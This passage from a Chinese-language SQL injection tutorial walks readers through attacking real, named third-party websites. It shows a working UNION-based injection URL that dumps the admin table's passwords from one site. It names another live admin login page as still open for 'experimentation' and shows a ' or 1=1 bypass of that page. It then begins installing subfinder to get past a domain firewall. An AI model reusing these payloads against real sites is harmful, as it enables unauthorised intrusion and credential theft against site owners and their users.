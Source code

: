 ## 嗅探数据

接下来我们试试嗅探`admin`表中的密码：

> admin表中的列如下：

```
adminid
,adminname
,password
,addtime
```

```sql
http://www.bygptech.com/about.php?id=114514 ' union select 1,group_concat(password, '<br>'),3,4,5,6,7 from admin; -- -
```



# Example 3

## 灵活使用payloads

> 在这个例子将会教你如何绕过admin登陆表单，仅限于一些没有防护措施的网站。

就本人写这篇文章的时间节点，下面这个网站仍然可以作为你的实验：

```apl
https://www.sspf.in/admin/
```

搜索: `sql payloads github`，或者访问这个链接: [Github注入网站](https://github.com/payloadbox/sql-injection-payload-list)

进入这个网站，你能看到很多注入的命令，使用这些命令作为表单的输入：

<img src="https://p.ipic.vip/ksrhgh.png" alt="截屏2024-11-24 22.52.09" style="zoom:25%;" />

这里我输入`' or 1=1 limit 1 -- -`作为**Username**，`'`作为**Password**，结果也是相当粗暴（成功绕过后台登陆）：

<img src="https://p.ipic.vip/ggzu04.png" alt="截屏2024-11-24 22.53.44" style="zoom:25%;" />

# Example 4

> 再这个例子中，你将会得到更强的提升，我将会以一个带有域名防火墙的网站作为例子。

## 安装工具

你需要一个`subfinder`，这是一个基于Go语言的命令行工具，你可以通过下面的命令安装他，不过前提是你已经安装了Go，如果没有，使用**brew**来安装Go再继续。

```apl
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
```
